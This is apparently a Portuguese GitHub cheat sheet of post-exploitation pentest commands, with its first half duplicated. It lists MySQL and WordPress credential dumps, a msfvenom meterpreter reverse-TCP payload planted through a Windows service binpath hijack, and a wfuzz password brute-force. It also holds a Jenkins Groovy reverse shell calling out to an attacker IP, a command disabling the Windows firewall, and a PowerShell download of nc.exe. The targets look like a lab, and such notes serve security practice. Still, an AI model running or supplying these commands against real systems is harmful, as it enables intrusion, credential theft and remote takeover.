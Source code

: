 # posexploracao
Lista de comandos relacionados a pentest

sqlite3
.tables
select * from Users


rbscheat -i 172.16.1000.11:2223 -l bash

echo "select * from mysql.user;" | mysql -h 127.0.0.1 -uwordpress -pskade 

echo "select * from wordpress.wp_users;" | mysql -h 127.0.0.1 -uwordpress -pskade 

export TERM=xterm

sudo base64 /root/flag.txt | base64 -d

acesschk.exe -uqmv .\tyranus-op 

sc config raxus-service obj=".\LocalSystem"

msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.100.210 lport=443 -f exe -o invasao.exe
sc config raxus-service binpath="C:\users\tyranus-op\invasao.exe"

service postgresql start

use multi/handler

set AutorunScript post/windows/manager/migrate/

# posexploracao
Lista de comandos relacionados a pentest

sqlite3
.tables
select * from Users


rbscheat -i 172.16.1000.11:2223 -l bash

echo "select * from mysql.user;" | mysql -h 127.0.0.1 -uwordpress -pskade 

echo "select * from wordpress.wp_users;" | mysql -h 127.0.0.1 -uwordpress -pskade 

export TERM=xterm

sudo base64 /root/flag.txt | base64 -d

acesschk.exe -uqmv .\tyranus-op 

sc config raxus-service obj=".\LocalSystem"

msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.100.210 lport=443 -f exe -o invasao.exe
sc config raxus-service binpath="C:\users\tyranus-op\invasao.exe"

service postgresql start

use multi/handler

set AutorunScript post/windows/manager/migrate/


wfuzz -c -z file,/usr/share/seclists/Passwords/Common-Credentials/best1050.txt --hs incorreta -d "x1_login=admin&x2_senha=FUZZ&entrar=Enviar" http://metasploitable.XXX/login/index.php 

JENKINS:



String host="172.16.100.210";
int port=8044;
String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


   def command = "cmd.exe /c netsh advfirewall set allprofile state off"
   def proc = command.execute()
   proc.waitFor()

   println "Process exit code: ${proc.exitValue()}"
   println "Std Err: ${proc.err.text}"
   println "Std Out: ${proc.in.text}"
   
   ------------




powershell 2
   
$url = "http://172.16.100.210/nc.exe" 
$path = "nc.exe" 
# param([string]$url, [string]$path) 

if(!(Split-Path -parent $path) -or !(Test-Path -pathType Container (Split-Path -parent $path))) { 
$targetFile = Join-Path $pwd (Split-Path -leaf $path) 
} 

(New-Object Net.WebClient).DownloadFile($url, $path) 
$path




